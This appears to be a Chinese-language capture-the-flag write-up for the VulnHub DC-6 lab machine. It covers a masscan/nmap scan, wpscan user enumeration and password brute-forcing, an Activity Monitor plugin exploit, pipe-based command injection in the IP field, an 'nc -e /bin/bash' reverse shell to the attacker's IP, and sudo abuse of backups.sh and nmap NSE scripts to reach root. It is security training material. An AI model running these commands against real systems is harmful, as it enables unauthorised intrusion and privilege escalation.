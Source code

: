 # DC-6

项目地址：

```
https://www.vulnhub.com/entry/dc-6,315/
```



# 1.信息收集：

```shell
 masscan 192.168.32.156 -p 1-65535 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-07 02:58:56 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 22/tcp on 192.168.32.156
Discovered open port 80/tcp on 192.168.32.156
```



## 1.1端口扫描

```shell
nmap -sV  -A  -sC 192.168.32.156 -p 22,80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-06 22:02 EST
Nmap scan report for bogon (192.168.32.156)
Host is up (0.00049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:23:83:5B (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 

![](img/Snipaste_2022-03-15_23-39-04.png)

绑定hosts文件

```shell
vim /etc/hosts

192.168.32.156 wordy
```



目录扫描除了后台地址并没有什么发现



# 2漏洞探测

枚举用户

```
wpscan --url http://wordy -e
```

```
#枚举出的用户名
admin
jens
graham
mark
sarah
```



 根据官网提示生成密码

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```



暴力破解

```
wpscan --url http://wordy/ -U users.txt -P passwords.txt
```



```
用户名/密码  mark/helpdesk01
```

![](img/Snipaste_2022-03-07_12-01-04.png)



# 3.漏洞利用

登录wordpress发现只是普通用户 不能上传文件getshell



插件getshell

![](img/Snipaste_2022-03-07_12-25-23.png)



kali本地搜索：

```
searchsploit activity monitor
```

![](img/Snipaste_2022-03-15_23-48-59.png)

```
python /usr/share/exploitdb/exploits/php/webapps/50110.py
```





输入IP 和用户名 密码 就可以getshell

![](img/Snipaste_2022-03-07_12-27-06.png)



# 4.提权：

```shell
#查看内核版本
 lsb_release -a 
 uname -a
```

![](img/Snipaste_2022-03-15_23-59-50.png)

 打算漏洞提权 但是执行命令会话直接断开



切换另外一种办法：

这个插件存在命令执行漏洞

抓包在输入IP 的地方加上  `| ls -al`   可以看到命令已经成功执行。

![](img/Snipaste_2022-03-16_00-53-44.png)







执行反弹shell：

```
nc -e /bin/bash 192.168.32.155 5555
```

![](img/Snipaste_2022-03-16_00-58-48.png)



![](img/Snipaste_2022-03-16_01-03-54.png)

在 /home/mark/stuff/things-to-do.txt 看到另一个用户的密码

![](img/Snipaste_2022-03-16_01-05-17.png)



切换用户：

```
su graham   
```

查看当前用户及其权限

```shell
whomai
sudo -l 列出目前的权限  #
```

![](img/Snipaste_2022-03-16_01-06-37.png)



发现可以以 jens 用户的权限操作 /home/jens 目录下的 backups.sh 文件

backups.sh的内容为：

```sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```

在 backups.sh 文件末尾添加 /bin/bash ，当执行 backups.sh 文件时可切换至 jens 用户

```shell
echo "/bin/bash" >>/home/jens/backups.sh
sudo -u jens ./backups.sh   #sudo -u指定用户执行命令
```



查看权限目录权限，可以不用密码以root权限执行/usr/bin/nmap这个文件

![](img/Snipaste_2022-03-16_01-20-44.png)



nmap 可以执行脚本文件，可以创建一个文件并写入反弹 shell 的命令，默认用root 权限执行，所以反弹的 shell 也是 root

```shell
echo 'os.execute("/bin/bash")' >aaa.nse
sudo -u root nmap --script=aaa.nse   #以root用户执行 nmap 
```

# 5.获取flag

```
cd /root
cat theflag.txt
```

![](img/Snipaste_2022-03-16_01-30-20.png)